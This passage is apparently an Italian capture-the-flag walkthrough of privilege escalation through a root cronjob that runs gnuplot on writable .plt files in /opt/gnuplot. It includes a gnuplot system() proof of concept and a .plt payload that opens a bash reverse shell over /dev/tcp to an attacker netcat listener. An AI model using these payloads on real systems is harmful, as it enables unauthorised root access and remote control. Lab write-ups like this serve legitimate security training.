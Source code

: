 scopriamo un cronjob che sta eseguendo un determinato script getdata.sh all'interno della directory /opt/gnuplot. Fondamentalmente, il cronjob viene eseguito dall'utente root, come indicato dalla colonna UID=0.

Lo script sembra chiamare il successivo comando find, che essenzialmente fa quanto segue:
- Avvia un comando di ricerca utilizzando l'utilità di ricerca.
- La ricerca inizia dalla directory `/opt/gnuplot` .
- Cerca i file con estensione .plt all'interno di quella directory e delle sue sottodirectory.
- Per ogni file trovato, esegue il comando gnuplot `{}` dove `{}` rappresenta il percorso del file trovato.
- Il punto e virgola; alla fine della riga indica la fine del comando exec.

Vediamo se abbiamo i permessi di lettura sulla directory `/opt/gnuplot`
```shell-session
vdaisley@topology:/tmp$ ls -ld /opt/gnuplot/
drwx-wx-wx 2 root root 4096 Jun 14  2023 /opt/gnuplot/
```

Non abbiamo i permessi di lettura, ma abbiamo quelli di scrittura. ma sapiamo che qualsiasi file `.plt` verrà eseguito dal cronjob dell'utente root fornendoci cosi l'opportunità di un'escalation dei privilegi.

Ricerchiamo alcuni comandi [gnuplot](http://gnuplot.info/docs_5.5/Commands.html) e scopriamo che esiste un comando di sistema che esegue comandi di sistema. Uno script gnuplot minimo funzionante che scrive i risultati del comando id, ad esempio, sarebbe simile a questo:
```shell-session
set print "/tmp/output.txt"
cmdout = system("id")
print cmdout
```

Quindi ci salviamo questa PoC , la spostiamo nella directory `/opt/gnuplot` e attendiamo l'attivazione del cronjob.
```shell-session
vdaisley@topology:/tmp$ nano test.plt
vdaisley@topology:/tmp$ mv test.plt /opt/gnuplot/
```

Dopo qualche secondo scopriamo che il file output.txt è stato creato:

```shell-session
vdaisley@topology:/tmp$ cat output.txt
uid=0(root) gid=0(root) groups=0(root) 
```

Avendo confermato che possiamo eseguire comandi di sistema come root, ottenere una shell interattiva è ora banale. Usiamo lo stesso modello di payload e inseriamo un comando che invierà una shell inversa ad [Netcat](Note/Tool/Netcat.md) sulla nostra macchina sulla porta 4444 .

ci mettiamo in ascolto con [Netcat](Note/Tool/Netcat.md)
```shell-session
┌──(root㉿kali)-[/home/kali]
└─# nc -lvnp 4444
listening on [any] 4444 ...
```

creiamo il nostro file.plt con all'interno la nostra revshell
```shell-session
cmdout = system("/bin/bash -c '/bin/sh -i >& /dev/tcp/10.10.14.48/4444 0>&1'")
print cmdout
```
